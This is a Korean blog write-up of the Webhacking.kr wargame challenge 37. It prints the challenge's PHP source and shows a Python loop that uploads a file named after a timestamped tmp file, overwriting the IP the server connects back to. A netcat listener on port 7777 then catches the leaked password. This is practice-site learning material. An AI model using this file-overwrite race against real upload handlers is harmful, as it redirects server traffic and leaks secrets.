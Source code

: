 ```yaml
---
layout: post
title: "Webhacking.kr 37번 문제"
description: ""
categories : development
sub_categories : ""
date: 2017-07-14
tags: [webhacking, 'webhacking.kr']
comments: true
share: true
background_image: /assets/images/posts/well-used/hacked.jpg
---
```


![](/assets/images/posts/779/2775FB33596868D2391301.PNG)

  

37번은 250 스코어의 문제입니다.

  

문제를 보면, 알수 없는 파일 리스트와 7777 포트가 열려있는데 루프백 아이피 그리고 폼 버튼이 보입니다.

  

하단에 위치한 폼 버튼의 임의로 이미지 사진(20170213_230929.png)을 업로드 했습니다.

업로드 이 후, 이미지가 정상적으로 리스트에 나오는 것을 확인했습니다.

  

    ....numbertmp-1499973060tmp-1499996289tmp-1499996421tmp-1499996897tmp-1499996923127.0.0.1:7777

  

현재까지의 시점을 보았을 때, 이로는 정답의 실마리를 찾지 못하여

소스코드를 열어보니 `index.phps` 가 숨어있었습니다.

  

문제의 힌트를 위해 해당 파일의 경로로 이동합니다.

  

이동했다면 아래와 같이 문제를 구성하는 코드가 보일 것 입니다.

코드의 대해서 잠깐 얘기해보겠습니다.

  

로컬 시간을 `time` 변수에 대입하고 "tmp" 디렉토리에 "tmp-".$time 이라는 파일의 루프백 아이피를 넣어 생성합니다.

"tmp/.number" 파일은 파일의 갯수를 측정하는 파일로써 find 함수로 한줄 씩 읽으며 배열로 반환하고

그 수를 증가시킨 값을 다시 본 파일의 적습니다.

  

tmp 파일이 30개를 이상이면 unlink 하는 부분 또한 있는데 별로 중요한 내용은 아니니 설명하지 않겠습니다.

  

중요한 부분은 다음에 나오는 파일명 중 특정 문자열을 공백으로 치환하는 부분입니다.

치환의 대상자는 아래와 같다.

  

  * <
  * >
  * ,
  * .
  * space 

  

tmp 디렉토리 이하에서 업로드 된 파일명을 쓰기 모드로 열고 클라이언트의 공인 ip를 작성합니다.

  

이후 소켓 함수를 이용하여 ck 변수에 저장된 ip 값의 7777 포트로 연결합니다.

연결 뒤에는 request 변수에 저당된 값을 발신합니다.

  

이 것이 내가 수신 받아야할 정답 값인 것 입니다.

  

문제에서 요청 시 7777포트로 요청 아이피에 정답을 발신합니다.

정답을 수신하기 위해 nc를 사용하여 7777 포트를 열어줍니다.

  

    nc - nvl -p 7777

  

이 후 공유기 사용자의 경우 포트 포워드 설정해주시면됩니다.

  

  

매 요청 시 "tmp-{구분자 = 시간}" 값이 동적으로 변하기에 이를 저는 loop 를 사용하여 해결했습니다.

소스는 아래와 같습니다.

  

  

    import requestsurl = 'http://webhacking.kr/challenge/web/web-18/index.php'files = {	'upfile' : ('tmp-1500000845',open('tmp-1500000845','rb'),'multipart/form-data')}cookies = {	'PHPSESSID': '세션 키 값'}for i in xrange(60):	response=requests.post(url, files = files, cookies = cookies)	print response.text

  

    $pw="???";$time=time();$f=fopen("tmp/tmp-$time","w");fwrite($f,"127.0.0.1");fclose($f);$fck=@file("tmp/.number");if($fck) $fck=$fck[0];if(!$fck) $fck=0;$fck++;$f2=fopen("tmp/.number","w");fwrite($f2,$fck);fclose($f2);$file_nm=$HTTP_POST_FILES[upfile][name];$file_nm=str_replace("","",$file_nm);$file_nm=str_replace(".","",$file_nm);$file_nm=str_replace(" ","",$file_nm);if($file_nm){$f=@fopen("tmp/$file_nm","w");@fwrite($f,$_SERVER[REMOTE_ADDR]);@fclose($f);}echo("");$kk=scandir("tmp");for($i=0;$i");$ck=file("tmp/tmp-$time");$ck=$ck[0];$request="GET /$pw HTTP/1.0\r\n";$request.="Host: $ck\r\n";$request.="\r\n";$socket=@fsockopen($ck,7777,$errstr,$errno,1);@fputs($socket,$request);@fclose($socket);echo("$ck:7777");if($fck>=30){$kk=scandir("tmp");for($i=0;$i<=count($kk);$i++){@unlink("tmp/$kk[$i]");}}

  
  
클리어 !

  

